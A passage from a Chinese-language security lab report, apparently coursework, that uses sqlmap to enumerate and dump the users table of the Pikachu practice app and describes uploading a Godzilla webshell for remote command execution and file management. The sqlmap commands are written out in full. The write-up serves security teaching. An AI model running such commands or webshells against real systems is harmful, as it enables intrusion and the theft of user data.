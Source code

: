 存在以下漏洞

![image-20220406104755402](https://tva1.sinaimg.cn/large/e6c9d24egy1h0zt5dpr93j20wf0e4die.jpg)

#### 3）查看数据库

```
sqlmap -u http://212.129.238.18:8000/vul/sqli/sqli_str.php\?name\=123\&submit\=%E6%9F%A5%E8%AF%A2 --dbs
```

![image-20220406104924867](https://tva1.sinaimg.cn/large/e6c9d24egy1h0zt6x62z4j20lq05tglx.jpg)

#### 4）查看表

```
sqlmap -u http://212.129.238.18:8000/vul/sqli/sqli_str.php\?name\=123\&submit\=%E6%9F%A5%E8%AF%A2 -D  pikachu --tables
```

#### 5）查看表数据

```
sqlmap -u http://212.129.238.18:8000/vul/sqli/sqli_str.php\?name\=123\&submit\=%E6%9F%A5%E8%AF%A2 -D  pikachu -T users --dump
```

![image-20220406105055656](https://tva1.sinaimg.cn/large/e6c9d24egy1h0zt8iq4r9j20rg07mjsc.jpg)

# 实验五-哥斯拉

## 实验要求

（1）本地搭建web服务器，直接上传/或放入哥斯拉自带的webshell到网站目录下，

（2）使用哥斯拉连接。掌握命令执行、文件管理等功能。

## 实验过程记录

（所有的操作过程、中间配置过程截图，以及工具使用的截图）

#### 1）上传一句话木马

![image-20220406105856517](https://tva1.sinaimg.cn/large/e6c9d24egy1h0ztgu70xjj20om04oaaa.jpg)

#### 2）添加连接

![image-20220406110036038](https://tva1.sinaimg.cn/large/e6c9d24egy1h0ztikmagjj212u0hg77k.jpg)

#### 3）进入控制  可以查看文件、命令执行等

![image-20220406110224753](https://tva1.sinaimg.cn/large/e6c9d24egy1h0ztkgfpexj21ay0iw781.jpg)
